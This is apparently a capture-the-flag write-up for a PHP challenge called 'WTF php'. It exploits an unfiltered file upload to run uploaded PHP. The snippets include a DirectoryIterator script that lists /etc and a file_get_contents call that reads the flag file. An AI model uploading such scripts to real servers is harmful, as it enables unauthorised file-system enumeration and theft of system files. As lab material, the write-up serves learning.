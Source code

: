 ###WTF php

Challenge was a classic file upload without file filter.
uploaded php file with phpinfo()

![Restricted file() and system()](img/disabled_func.png)

uploaded another php containing

```
<?php
$iterator=new DirectoryIterator('/../../../../../etc/');
while ($iterator->valid()) {
    echo $iterator->current()->getFilename() . '</br>';
    $iterator->next();
}

?>

```
![outputed all files in etc directory](img/f1@g.png)

final php upload containing the flag contents

```
$file = file_get_contents('/../../../../etc/f1@g.txt');
echo $file;

```
![:)](img/flag.png)